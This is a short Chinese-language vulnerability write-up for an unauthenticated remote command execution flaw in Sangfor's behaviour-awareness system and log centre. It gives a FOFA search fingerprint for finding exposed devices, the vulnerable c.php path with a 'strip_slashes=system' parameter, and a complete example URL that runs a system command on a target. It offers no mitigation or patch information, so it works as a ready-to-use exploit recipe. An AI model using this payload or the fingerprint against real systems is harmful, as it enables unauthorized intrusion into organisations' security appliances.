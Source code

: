 # 深信服行为感知系统&&日志中心 远程命令执行漏洞

## 漏洞描述

深信服行为感知系统&&日志中心 远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

> 深信服 行为感知系统和日志中心

## FOFA

> body="isHighPerformance : !!SFIsHighPerformance,"

## 漏洞复现

漏洞URL为：

```
/tool/log/c.php?strip_slashes=system&host=
```

例如我要查看目标机器的系统信息：

```
https://x.x.x.x/tool/log/c.php?strip_slashes=system&host=systeminfo
```

![](resource/深信服行为感知系统/1.png)